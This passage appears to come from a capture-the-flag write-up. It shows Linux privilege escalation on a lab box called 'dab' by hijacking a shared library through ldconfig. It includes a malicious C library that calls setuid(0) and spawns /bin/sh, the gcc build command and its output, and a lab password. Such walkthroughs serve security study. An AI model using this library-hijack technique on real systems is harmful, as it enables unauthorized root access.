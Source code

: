 

And when I run it, my hello world executes:



    genevieve@dab:/dev/shm$ myexec 
    Enter password: s3cur3l0g1n
    Password is correct

    hello, world!



I can also change it back by running `ldconfig` with no arguments:



    genevieve@dab:/dev/shm$ ldconfig
    genevieve@dab:/dev/shm$ ldd /usr/bin/myexec 
            linux-vdso.so.1 =>  (0x00007ffdeabf9000)
            libseclogin.so => /usr/lib/libseclogin.so (0x00007fa8bcd00000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa8bc936000)
            /lib64/ld-linux-x86-64.so.2 (0x00007fa8bcf02000)



#### Shell

Now, I can update this code to give me a shell:



    genevieve@dab:/dev/shm$ cat .a.c 
    void seclogin() {
        setuid(0);
        setgid(0);
        execl("/bin/sh","sh",0);
    }



I'll compile (warnings are ok):



    genevieve@dab:/dev/shm$ gcc -shared -fPIC /dev/shm/.a.c -o /dev/shm/libseclogin.so
    /dev/shm/.a.c: In function ‘seclogin’:
    /dev/shm/.a.c:2:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
         setuid(0);
         ^
    /dev/shm/.a.c:3:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
         setgid(0);
         ^
    /dev/shm/.a.c:4:5: warning: implicit declaration of function ‘execl’ [-Wimplicit-function-declaration]
         execl("/bin/sh","sh",0);
         ^
    /dev/shm/.a.c:4:5: warning: incompatible implicit declaration of built-in function ‘execl’
    /dev/shm/.a.c:4:5: warning: missing sentinel in function call [-Wformat=]
